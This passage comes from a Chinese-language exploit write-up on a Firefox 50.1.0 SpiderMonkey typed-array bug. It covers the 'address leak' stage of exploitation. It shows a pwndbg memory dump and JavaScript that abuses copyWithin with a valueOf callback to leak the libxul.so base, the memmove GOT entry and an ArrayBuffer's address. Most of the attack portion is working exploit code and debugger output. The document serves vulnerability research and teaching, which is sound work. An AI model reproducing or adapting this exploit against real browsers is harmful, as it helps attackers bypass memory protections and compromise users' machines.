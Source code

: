 可以看到 `b` 的 `0x000055555660c2e0` 被拷贝到了`a` 的内联数据里，这样就可以用`a` 获取 `ArrayBuffer b` 中的内存地址



## 漏洞利用

### <a class="reference-link" name="%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2"></a>地址泄露

通过前面分析我们了解了漏洞的基本成因和效果，接下来就是这么利用了， 前面我们可以通过`copyWithIn` 来泄露`ArrayBuffer b` 的地址, 我们需要泄露出`0x000055555660c2e0` ， 和`0x00003ffffbf428f0` 这两个地址. `0x000055555660c2e0` 在 jsshell 中指向js 的`emptyElementsHeaderShared`, 在完整的firefox 里指向 `libxul.so` ， 通过这个地址就可以泄露出 `libxul.so` 的地址。

`0x00003ffffbf428f0 &lt;&lt;1 == 0x7ffff7e851e0` 指向申请的buffer, 因为这里申请的是`0x60` 大小的，所以是以内联的方式，通过它可以泄露出`ArrayBuffer` 的地址

```
0x7ffff7e851a0: 0x00007ffff7e82880      0x00007ffff7ea9240
0x7ffff7e851b0: 0x0000000000000000      0x000055555660c2e0//&lt;===
                // data
0x7ffff7e851c0: 0x00003ffffbf428f0      0xfff8800000000060
0x7ffff7e851d0: 0xfffc000000000000      0xfff8800000000000
//....
pwndbg&gt; vmmap 0x55555660c2e0
0x555555554000     0x555557509000 r-xp  1fb5000 0      /mozilla/firefox-50.1.0/js/src/build_DBG.OBJ/js/src/shell/js
// 0x00003ffffbf428f0 &lt;&lt; 1  == 0x7ffff7e851e0
```

按照前面的描述，我们申请两个 `ArrayBuffer`

```
buffer1 =  new ArrayBuffer(0x60);
    buffer2 =  new ArrayBuffer(0x60);

    a1_8 = new Uint8Array(buffer1);
    a1_32 = new Uint32Array(buffer1);
    a1_64 = new Float64Array(buffer1);


    hax = `{` valueOf: function() `{` a1_8.offset = 0x58 ; return 0x0; `}` `}`;
    a1_8.copyWithin(hax,0x20,0x28);
    xul_base = f2i(a1_64[11]) -0x39b4bf0;
    memmove_got = xul_base + 0x000004b1f160
    //......................................
       a1_8.offset = 0;
    a1_8.copyWithin(hax,0x28,0x30);
    buffer1_base = f2i(a1_64[11])*2 - 0xe0;
    print("buffer1_base "+hex(buffer1_base));
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01864314909105809a.png)
